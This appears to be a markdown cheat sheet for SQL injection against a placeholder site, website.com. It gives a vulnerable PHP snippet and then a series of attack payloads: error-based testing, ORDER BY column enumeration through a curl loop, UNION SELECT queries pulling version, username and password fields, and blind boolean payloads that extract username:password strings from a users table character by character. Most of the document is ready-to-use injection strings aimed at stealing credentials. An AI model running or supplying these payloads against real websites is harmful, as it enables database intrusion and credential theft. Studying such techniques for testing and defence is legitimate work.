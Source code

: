 # SQL Injection
Test these areas:
- url paramaters
- form fields

## Basic Example
The following URL serves a page based on the ID number passed to it in the URL.

`https://website.com/pages?id=3`

For an SQL injection to work, this URL needs to be mishandled on the backend. Similar to this:

```
<?php
$id = $_GET['id'];
$query = "SELECT title, content FROM Pages WHERE id == $id;"
```

## Basic Test
The easiest way to test for an SQL injection vulnerability is to throw a `'` into the string. If the application is vulnerable you will see an error similar to:

```
You have an error in your SQL syntax; check the manual that corresponds t oyour MySQL server version for the right.."
```


## Enumerate the columns in the database
Once you determine an application is vulnerable, you can Use the `ORDER BY` statement to enumerate the columns in a table. 

```
x=1
limit=10
while [ $x -le $limit ]
do
    curl https://website.com/pages?id=3 order by $x/*
done
```

At a certain point you will see an error similar to: 

`(Unkown column '5' in 'order clause')` which will indicate that you have hit the maximum of 4 columns. 

## Test the UNION function
Make sure to test both methods of commenting if one does not work.

`https://website.com/pages?id=3 union all select 1,2,3,4/*`

`https://website.com/pages?id=3 union all select 1,2,3,4--`

## Get SQL Version Number
This will help us determine if we can exploit this version of SQL

`https://website.com/pages?id=3 union all select 1,2,@@version,4/*`


## Enumerate Tables & Columns (version < 5.0)
Pass column names into the query string to attempt to find usernames and passwords.

```
https://website.com/pages?id=3 union all select 1,2,username,4 from admin/*
https://website.com/pages?id=3 union all select 1,2,password,4 from admin/*
```

## Blind Testing
If the page does not throw an error our tests are considered successful.

`https://website.com/pages?id=3 and 1=1`

`https://website.com/pages?id=3 and 1=2`

### Get Version
Change the version number (5) as needed 

`https://website.com/pages?id=3 and substring(@@version,1,1)=5`

### Subselect Testing
If the page does not throw an error, the statement will work.

`https://website.com/pages?id=3 and (select 1)=1`

To access the user

`https://website.com/pages?id=3 and (select 1 from mysql.user limit 0,1)=1`


### Checking table names
`https://website.com/pages?id=3 and (select 1 from users limit 0,1)=1`


### Checking column names
`https://website.com/pages?id=3 and (select substring(concat(1,password),1,1) from users limit 0,1)=1`

### Exploiting the vulnerability
This query will retrieve a single string (username:password) from the database, take the first character and convert it to it's ascii code. You will want to increase the index of the character in order to enumerate the entire username and password.

`https://website.com/pages?id=3 and ascii(substring((select concat(username,0x3a,password) from users limit 0,1),1,1)) > 80`

`ascii()` - return the ascii character code

`substring(username:password, 1,1)` - return the first character in the user:pass string

`concat(username, 0x3a, password)` - concat username:password

`> 80` - Execute Select query if the ascii character code > 80









 
